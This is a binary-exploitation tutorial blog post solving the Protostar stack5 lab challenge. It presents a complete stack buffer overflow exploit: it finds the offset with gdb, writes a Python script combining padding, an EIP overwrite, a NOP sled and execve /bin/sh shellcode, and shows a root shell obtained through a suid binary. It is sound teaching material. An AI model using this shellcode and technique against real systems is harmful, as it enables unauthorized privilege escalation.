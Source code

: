 ```yaml
---
layout: post
title: Buffer Overflow Examples, Code execution by shellcode injection - protostar stack5
categories: binary-exploitation
tags: [Linux, Binary Exploitation, Buffer Overflow, Exploit Development, c, Python]
image: binary-exploitation/BOF5/0.png
---
```


<hr>
### Introduction
#### Hey I'm back with another Buffer Overflow article and today we are going to do a really interesting exploit , Today we will finally escalate privileges using a vulnerable suid binary (you can know more about that by reading the [first buffer overflow article](/binary-exploitation/bof1/)) , I will also cover some interesting topics to fully understand this exploit. This is also the most realistic exploit so far. All the previous exploits wanted us to change a variable , execute a function .. stuff that are more like CTF but this time we have a realistic situation , Without wasting more time let's just jump right in.
#### Read the [previous articles](/categories) first , if you haven't done yet.
![](/images/binary-exploitation/BOF5/0.png)
<hr>
### ./Stack5
#### We have the source like all the previous challenges but this time it's actually not important.
```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
 char buffer[64];

 gets(buffer);
}
```
#### It just takes our input and stores it in the buffer , it doesn't even tell us about the buffer size. What about `char buffer[64];` ?  like [stack4](/binary-exploitation/bof4/) if we tried 64 chars it won't even crash. with that being said let's start.
#### As always we will start by finding out if the binary vulnerable or not (yea we already know that but it's an important enumeration step)
`python -c "print 'A' * 100" | ./stack5`
![](/images/binary-exploitation/BOF5/1.png)
#### Segmentation fault. So it crashes before 100 chars , next step is to know where exactly does it crash. We will use metasploit `pattern_create` and `pattern_offset` , I explained how does this work in [stack3](/binary-exploitation/bof3)
`./pattern_create.rb -l 100`
![](/images/binary-exploitation/BOF5/2.png)
#### Then we will run gdb and create a break point at `main()` , `run` the program after the break point we make it continue then pass our pattern
`break main`
<br>
`run`
<br>
`c`
![](/images/binary-exploitation/BOF5/3.png)
#### It crashes at `0x63413563` , now we will use `pattern_offset`
`./pattern_offset.rb -q 63413563`
![](/images/binary-exploitation/BOF5/4.png)
#### And we get exact match at offset 76. As I said before we will exploit this binary to get a root shell , but how to know if it's a suid binary or not ? we can simply use `find` to know that
`find /opt/protostar/bin/ -perm -4000 | grep stack5`
![](/images/binary-exploitation/BOF5/5.png)
#### And we get `/opt/protostar/bin/stack5` , if it wasn't a suid binary we wouldn't get any output. If you are just searching for suid binaries you can remove the `grep` command and it will list all suid binaries in the specified directory.
<br>
<hr>
### Fun with gdb , finding EIP 
#### Now let's run gdb again and start getting useful information. Before we start I have to say that the memory addresses may differ , so mine won't be the same as yours. Last time we have overwritten the EIP address with the address of `win()` function . This time we don't have a function to execute ,we have to find the address of the EIP and make it point to our "evil input" (shellcode), I will explain in a moment.
#### We will set the disassembly flavor to intel
`set disassembly-flavor intel`
#### Then we will disassemble the main function
`disassemble main`
![](/images/binary-exploitation/BOF5/6.png)
#### By looking at that we can identify the best place to set our break point , and it's gonna be before the `leave` instruction , `leave` is right before the `return` instruction , next to `leave` we see the address `0x080483d9` so we will type :
`break *0x080483d9`
![](/images/binary-exploitation/BOF5/7.png)
#### Then we will run the program and pass any input , many A's is always good 
![](/images/binary-exploitation/BOF5/8.png)
#### It will execute and stop at the breakpoint , by typing `info frame` we can get the EIP address
`info frame`
![](/images/binary-exploitation/BOF5/9.png)
#### The last 2 lines show saved registers : eip at `0xbffff77c`
<br>
<hr>
### Another way to get the buffer size
#### Let's take a break and take a quick look at another way to get the buffer size , I wanted to show this quickly because we have already done 50 % of it ..
#### Metasploit is cool but what if we don't have metasploit in some situation ? We can do it manually by calculating the distance between the buffer start address and the EIP address , We have already got the EIP address so let's get the start of the buffer.
#### If we type `x/24wx $esp` it will show us (`x/`) 24 (`24wx`) words at the top of the stack (`$esp`).
`x/24wx $esp`
![](/images/binary-exploitation/BOF5/10.png)
#### At the second line we see this address `0xbffff730` and it holds values of `0x41414141` and we already know that 41 is the hex of "A" which was our input to the program so we know that this address is where the buffer starts. We know that the buffer comes first then the EIP so the EIP's address is greater than the buffer's address. We will substract them from each other:
`p/d 0xbffff77c - 0xbffff730`
![](/images/binary-exploitation/BOF5/11.png)
#### And we get 76 , the same result we got using metasploit. That was another practical way to find the buffer's size.
<br>
<hr>
### Idea of the exploit
#### before we build our exploit let's just understand the idea of the exploit. we will fill the buffer with "A" as always , we will reach the EIP and overwrite it with a new address that points to our shell code (4 bytes after), then we will add something called NOP (No Operation) , then finally the shellcode. Let's breakdown everything.
<br>
<hr>
### ShellCode
#### So what's a shellcode ? Simply it's a piece of code ("written in hex in our situation") that we use as a payload to execute something . `/bin/sh` for example. And this binary is suid ... so if we execute shellcode that executes `/bin/sh` with the binary we will get a root shell.
#### You can get shellcodes from [shell-storm](http://shell-storm.org/shellcode/) or from [exploit-db](https://www.exploit-db.com/) , of course there are a lot of other resources , I'm just giving examples.
#### This is the [shellcode](https://www.exploit-db.com/exploits/13357) we are going to use for this challenge :
```
\x31\xc0\x31\xdb\xb0\x06\xcd\x80\x53\x68/tty\x68/dev\x89\xe3\x31\xc9\x66\xb9\x12\x27\xb0\x05\xcd\x80\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80
```
#### This shellcode executes `/bin/sh`
<br>
<hr>
### NOP (No Operation)
#### Basically no operation is used to make sure that our exploit doesn't fail , because we won't always point to the right address , so we add stuff that doesn't do anything and we point to them , Then when the program executes it will reach those NOPs and keeps executing them (does nothing) until it reaches the shellcode.
<br>
<hr>
### Building the exploit
#### In the last challenges a single python print statement solved it. This time it will be a mess so we will create a small exploit with python.
#### First thing we will import a module called struct , I will explain why in a moment.
`import struct`
#### Then we will create a variable the holds the padding (the chars to fill the buffer)
`pad = "\x41" * 76`
#### After it fills the buffer it will hit the EIP , we need the new EIP address that we will assign , as I said above we need it to be the address of the following instruction (4 bytes after the original EIP address) so it will be `0xbffff77c + 4` , google can simply give you the answer :D . it will be `0xbffff780` . We will add that value to a variable but remember we need it in reverse , That's why struct is important. if you do `import struct;struct.pack("I" , 0xbffff780)` from the python interpreter it will print `\x80\xf7\xff\xbf` , it makes life easier :D
`EIP = struct.pack("I", 0xbffff780)`
#### Then comes our shellcode
```
shellcode = "\x31\xc0\x31\xdb\xb0\x06\xcd\x80\x53\x68/tty\x68/dev\x89\xe3\x31\xc9\x66\xb9\x12\x27\xb0\x05\xcd\x80\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80"`
```
#### Last thing is the NOP , it can be anything , so 100 chars will be good
`NOP = "\x90" * 100`
#### Ok our exploit is ready , we just need to print out the final payload so :
`print pad + EIP + NOP + shellcode`
#### Let's take a look at the script :
```
import struct
pad = "\x41" * 76
EIP = struct.pack("I", 0xbffff780)
shellcode = "\x31\xc0\x31\xdb\xb0\x06\xcd\x80\x53\x68/tty\x68/dev\x89\xe3\x31\xc9\x66\xb9\x12\x27\xb0\x05\xcd\x80\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80"
NOP = "\x90" * 100
print pad + EIP + NOP + shellcode
```
![](/images/binary-exploitation/BOF5/12.png)
<hr>
### Applying the exploit
#### Now it's show time ! let's test it out.
` python /tmp/stack5.py | ./stack5`
![](/images/binary-exploitation/BOF5/13.png)
#### And we got a root shell ! 
<br>
<br>
#### That's it , Feedback is appreciated !
#### Don't forget to read the [previous articles](/categories) , Tweet about the article if you liked it , follow on twitter [@Ahm3d_H3sham](https://twitter.com/Ahm3d_H3sham)
#### Thanks for reading.
<br>
<br>
#### Previous Binary Exploitation article : [Buffer Overflow Examples, Taking control of the instruction pointer - protostar stack4](/binary-exploitation/bof4/)
#### Next Binary Exploitation article : [Buffer Overflow Examples, Bypassing non-executable stack by re2libc - protostar stack6](/binary-exploitation/bof6/)
<hr>
